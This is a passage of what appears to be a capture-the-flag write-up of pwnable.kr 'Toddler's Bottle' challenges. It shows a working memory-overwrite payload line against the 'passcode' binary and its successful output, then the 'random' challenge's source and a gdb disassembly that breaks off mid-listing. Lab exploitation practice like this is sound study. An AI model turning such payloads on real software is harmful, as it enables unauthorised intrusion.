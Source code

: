 
passcode@ubuntu:~$ python -c 'print "A"*96 + "\x04\xa0\x04\x08" + "134514147"|.passcode
> ^C
passcode@ubuntu:~$ python -c 'print "A"*96 + "\x04\xa0\x04\x08" + "134514147"'|./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
enter passcode1 : Now I can safely trust you that you have credential :)


Toddler's Bottle - random

random@ubuntu:~$ cat random.c
#include <stdio.h>

int main(){
	unsigned int random;
	random = rand();	// random value!

	unsigned int key=0;
	scanf("%d", &key);

	if( (key ^ random) == 0xdeadbeef ){
		printf("Good!\n");
		system("/bin/cat flag");
		return 0;
	}

	printf("Wrong, maybe you should try 2^32 cases.\n");
	return 0;
}

random@ubuntu:~$ ./random
-2147483648
Wrong, maybe you should try 2^32 cases.
random@ubuntu:~$ gdb -q randomError: can not access /proc.

Reading symbols from /home/random/random...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
   0x00000000004005f4 <+0>:	push   rbp
   0x00000000004005f5 <+1>:	mov    rbp,rsp
   0x00000000004005f8 <+4>:	sub    rsp,0x10
   0x00000000004005fc <+8>:	mov    eax,0x0
   0x0000000000400601 <+13>:	call   0x400500 <rand@plt>
   0x0000000000400606 <+18>:	mov    DWORD PTR [rbp-0x4],eax
   0x0000000000400609 <+21>:	mov    DWORD PTR [rbp-0x8],0x0
   0x0000000000400610 <+28>:	mov    eax,0x400760
   0x0000000000400615 <+33>:	lea    rdx,[rbp-0x8]
   0x0000000000400619 <+37>:	mov    rsi,rdx
   0x000000000040061c <+40>:	mov    rdi,rax
   0x000000000040061f <+43>:	mov    eax,0x0
   0x0000000000400624 <+48>:	call   0x4004f0 <__isoc99_scanf@plt>
   0x0000000000400629 <+53>:	mov    eax,DWORD PTR [rbp-0x8]
   0x000000000040062c <+56>:	xor    eax,DWORD PTR [rbp-0x4]
   0x000000000040062f <+59>:	cmp    eax,0xdeadbeef
   0x0000000000400634 <+64>:	jne    0x400656 <main+98>
   0x0000000000400636 <+66>:	mov    edi,0x400763
   0x000000000040063b <+71>:	call   0x4004c0 <puts@plt>
   0x0000000000400640 <+76>:	mov    edi,0x400769
   0x0000000000400645 <+81>:	mov    eax,0x0
   0x000000000040064a <+86>:	call   0x4004d0 <system@plt>
   0x000000000040064f <+91>:	mov    eax,0x0
   0x0000000000400654 <+96>:	jmp    0x400665 <main+113>
   0x0000000000400656 <+98>:	mov    edi,0x400778
   0x000000000040065b <+103>:	call   0x4004c0 <puts@plt>